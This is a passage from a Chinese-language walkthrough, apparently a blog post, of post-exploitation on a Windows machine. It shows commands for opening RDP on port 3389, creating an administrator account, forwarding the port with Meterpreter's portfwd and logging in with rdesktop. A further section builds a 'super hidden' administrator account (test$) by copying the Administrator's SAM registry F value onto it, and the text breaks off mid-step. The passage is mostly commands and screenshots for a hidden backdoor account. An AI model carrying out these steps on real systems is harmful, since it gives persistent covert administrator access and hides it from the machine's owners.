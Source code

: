 ![](https://upload-images.jianshu.io/upload_images/7216746-aebecfc092ff753d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

19.成功打开3389端口
![](https://upload-images.jianshu.io/upload_images/7216746-990ee071c3b394bc.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

20.创建管理员用户Waldo

`net user Waldo 123456hhhh. /add`

`net localgroup administrators Waldo /add`
![](https://upload-images.jianshu.io/upload_images/7216746-147ac94ad48c391c.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

21.使用Waldo账户远程登录
`portfwd add -l 3389 -L 127.0.0.1 -p 3389 -r 192.168.114.138`
![](https://upload-images.jianshu.io/upload_images/7216746-67015e3cdf761f86.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

`rdesktop  127.0.0.1 -u Waldo -p 123456hhhh.`
![](https://upload-images.jianshu.io/upload_images/7216746-ed54dca58f51c87b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

### 添加超级隐藏管理员账户

`net user test$ 123456 /add`

`net localgroup administrators test$ /add`

![](https://upload-images.jianshu.io/upload_images/7216746-bad28f2c69bfe940.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

但在管理账户面板依然能够看见，下面要解决这个问题
![](https://upload-images.jianshu.io/upload_images/7216746-d1a120b5c4daeab2.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

在注册表`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names`下找	到新建的帐户test$

获取默认类型为0x3ec，将注册表`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\test$`导出为1.reg

在注册表下能够找到对应类型名称的注册表项	`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000003EC`

![](https://upload-images.jianshu.io/upload_images/7216746-083b6081dc7dd0be.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

右键将该键导出为2.reg，保存的文件信息如下图

![42.png](https://upload-images.jianshu.io/upload_images/7216746-716b0a3accb2a79e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

默认情况下，管理员帐户Administrator对应的注册表键值为`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F4`
同样，右键将该键导出为3.reg

将注册表项`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000003EA`下键`F`的值替换为`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F4`下键`F`的值，即2.reg中键`F`的值替换成3.reg中键`F`的值

替换后，如图

![](https://upload-images.jianshu.io/upload_images/7216746-2dd0a6a251f1e286.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

命令行删除特殊账户: `net user test$ /del`

导入reg文件:
